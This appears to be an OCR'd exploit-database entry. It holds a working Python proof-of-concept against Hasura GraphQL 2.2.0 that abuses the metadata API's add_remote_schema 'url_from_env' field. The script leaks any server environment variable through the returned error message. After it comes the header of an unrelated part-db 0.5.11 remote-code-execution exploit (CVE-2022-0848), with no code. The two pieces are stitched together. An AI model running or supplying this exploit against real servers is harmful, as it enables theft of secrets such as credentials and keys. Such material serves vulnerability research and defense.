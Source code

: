 import requests

SERVER_ADDR = 'x.x.x.x'

url = 'http://{}/v1/metadata'.format(SERVER_ADDR)

print('Hasura GraphQL Community 2.2.0 - Arbitrary Root Environment Variables Read')

while True:
    env_var = input('Type environment variable key to leak.\n> ')
    if not env_var:
        continue

    payload = {
    "type": "bulk",
    "source": "",
    "args": [
        {
            "type": "add_remote_schema",
            "args": {
                "name": "ttt",
                "definition": {
                    "timeout_seconds": 60,
                    "forward_client_headers": False,
                    "headers": [],
                    "url_from_env": env_var
                },
                "comment": ""
            }
        }
    ],
    "resource_version": 2
}
    r = requests.post(url, json=payload)
    try:
       print(r.json()['error'].split('not a valid URI:')[1])
    except IndexError:
        print('Could not parse out VAR, dumping error as is')
        print(r.json().get('error', 'N/A'))
# Exploit Title: part-db 0.5.11 - Remote Code Execution (RCE)
# Google Dork: NA
# Date: 03/04/2022
# Exploit Author: Sunny Mehra @DSKMehra
# Vendor Homepage: https://github.com/part-db/part-db
# Software Link: https://github.com/part-db/part-db
# Version: [ 0.5.11.]
# Tested on: [KALI OS]
# CVE : CVE-2022-0848
#
---------------
